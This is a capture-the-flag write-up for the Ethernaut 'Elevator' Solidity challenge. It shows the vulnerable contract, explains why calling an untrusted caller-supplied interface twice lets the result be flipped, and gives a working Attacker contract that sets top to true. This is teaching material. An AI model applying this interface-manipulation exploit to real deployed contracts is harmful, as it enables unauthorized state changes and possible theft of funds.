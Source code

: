 # Elevator

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Goal

Reach the top of the building, set the top variable inside Elevator contract to true

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The purpose of the Attacker will be to implement the isLastFloor() function from the Building interface.

There two important lines of code worth mentioning. First one is:

```
  Building building = Building(msg.sender);
```

This means that the Building interface will be implemented in the context of msg.sender (in our case it will be the Attacker contract), therefore the Attacker contract
must have isLastFloor(uint) function implemented

The second line is:

```
  top = building.isLastFloor(floor);
```

This is the only place where we assign value to the top variable.

So let's dive in. From the code we can see that the top variable is in conjunction with the isLastFloor() function from the Building interface, it's value is directly dependant from the return value of isLastFloor() function.

Inside goTo() function we can see that isLastFloor() function is called 2 times.
What we can do in the Attacker contract is implement the isLastFloor() function, and we need a way to make this function return false the first time is called, and return true afterwards. To achieve this we can use storage variable.

To exploit the contract we need to:

1. create Attacker contract, and create instance from the Elevator contract inside the Attacker contract, this contract should also have additional storage variable count
2. create external hackElevator() function inside Attacker contract, and from this function call the goTo() function inside the Elevator contract
3. lastly implement/create isLastFloor(uint) function, that is contained in the Building interface, inside isLastFloor we need to incremenet the count variable, and return false if count is lees than 1 or true otherwise
4. call the hackElevator function()

## Attacker contract code

```
contract Attacker {
  Elevator private immutable elevator;
  uint private count;

  constructor(address _elevator) {
    elevator = Elevator(_elevator);
  }

  function hackElevator() external {
    elevator.goTo(3);
    require(elevator.top(), "not top");
  }

  function isLastFloor(uint) external returns (bool) {
    count++;
    return count > 1;
  }
}
```